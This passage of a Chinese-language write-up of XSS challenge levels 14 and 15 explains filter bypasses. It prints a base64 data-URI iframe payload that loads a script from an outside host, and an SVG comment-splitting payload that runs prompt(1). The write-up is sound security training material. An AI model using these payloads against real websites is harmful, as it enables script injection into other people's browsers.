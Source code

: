 

## level 14

好吧，其实一开始想到了尝试`base64`的形式，但是base64是大小写敏感，这里的`toUpperCase()`让我不知道怎么处理

看了writeup，构造出了一个base64全为大写的payload

```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=
```

由于无法将url指定到我的服务器，所以暂时也无法复现



## level15

level7的升级版本，最主要的就是过滤了`*`，于是就不能用`/*`、`*/`的方式来过滤

这里主要是利用`<svg>`这种外部元素，会对其中的字符进行xml解析，也就导致了`<!--`、`-->`这种过滤符可以被使用

然后利用这个特性，就可以构造出payload了

```
"><svg><!--#--><script><!--#-->prompt(<!--#-->1)</script>
```

![](xss练习记录\21.png)



# alf.nu
